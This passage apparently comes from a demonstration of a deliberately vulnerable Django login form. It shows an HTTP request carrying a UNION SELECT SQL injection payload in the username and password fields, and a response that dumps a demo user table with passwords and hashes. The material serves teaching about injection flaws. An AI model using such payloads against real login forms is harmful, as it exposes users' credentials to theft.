 ```
Cookie: csrftoken=zrLfzcEXSsrgxUMCtcDYBc4j4h4dSSOsjSFG8bayan12GFKHHDxfAaUwTPH1xaWM
Connection: close

csrfmiddlewaretoken=wVure3Nes96bHkjBYMOKiS6HcLu5UtP1gmoSN2jPK4GXQ5hGcdI1hQWU1j7TzLXl&username=%3D%27+UNION+SELECT+*+FROM+myapp_User--&password=%3D%27+UNION+SELECT+*+FROM+myapp_User--
```

Response:

```
HTTP/1.1 200 OK
Date: Sun, 14 Mar 2021 12:32:35 GMT
Server: WSGIServer/0.2 CPython/3.9.2
Content-Type: text/html; charset=utf-8
X-Frame-Options: DENY
Vary: Cookie
Content-Length: 1102
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Set-Cookie:  csrftoken=zrLfzcEXSsrgxUMCtcDYBc4j4h4dSSOsjSFG8bayan12GFKHHDxfAaUwTPH1xaWM; expires=Sun, 13 Mar 2022 12:32:35 GMT; Max-Age=31449600; Path=/; SameSite=Lax

<a href="/myapp">Back</a>
<div>
  This demonstrates SQL Injection vulnerability. User form input has not been
  sanitized properly when used in SQL query.
</div>

<form method="POST">
  <input type="hidden" name="csrfmiddlewaretoken" value="7GVVz4A1tWkZF9N3UgqRLdl0XCt2ivwxR7Pm836CLRULOUL88Hk8KbbdMa6QXNER">
  <label for="username">Username</label>
  <input
    type="text"
    name="username"
    value="=' UNION SELECT * FROM myapp_User--"
  />
  <br />
  <label for="username">Password</label>
  <input
    type="password"
    name="password"
    value="=' UNION SELECT * FROM myapp_User--"
  />
  <br />
  <input type="submit" value="Login" />
</form>

<div>
  <code>[(1, &#x27;john@doe.com&#x27;, &#x27;John&#x27;, &#x27;Doe&#x27;, &#x27;JohnsSecret&#x27;, 1), (2, &#x27;jane@doe.com&#x27;, &#x27;Jane&#x27;, &#x27;Doe&#x27;, &#x27;JanesSecret&#x27;, 0), (3, &#x27;jim@doe.com&#x27;, &#x27;Jim&#x27;, &#x27;Doe&#x27;, &#x27;edc42553941306d1dc2b096d1a845abb&#x27;, 0), (4, &#x27;Jenn@doe.com&#x27;, &#x27;Jenn&#x27;, &#x27;Doe&#x27;, &#x27;4f37034b879be91c7068a70c23c07e3b&#x27;, 0)]</code>
</div>


```

